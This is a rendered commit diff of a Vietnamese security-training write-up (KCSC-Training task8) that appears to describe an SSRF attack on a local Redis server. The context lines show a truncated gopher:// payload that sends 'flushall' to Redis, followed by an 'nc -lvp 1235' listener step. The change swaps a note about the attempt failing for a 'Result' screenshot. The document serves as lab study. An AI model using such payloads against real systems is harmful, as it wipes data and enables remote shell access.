

Before and after one commit to caodchuong312/KCSC-Training, a Markdown page: task8/README.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/task8/README.md
+++ b/task8/README.md
@@ -86,8 +86,5 @@ gopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0As
 ```
 - Bây giờ chỉ việc dùng `nc -lvp 1235` rồi gửi payload thôi...
 
-Mặc dù thử rất nhiều lần nhưng em vẫn bị fail :
-
-![image](https://user-images.githubusercontent.com/92881216/229124019-26a57794-41a9-4685-8a5b-53ed77b445fe.png)
-
-Và bên nc vẫn ko có hiện tượng gì :(((((
+Kết quả:
+![image](https://user-images.githubusercontent.com/92881216/229142708-d48fb2ea-4a9e-4e82-bd26-41d2635823bf.png)
````
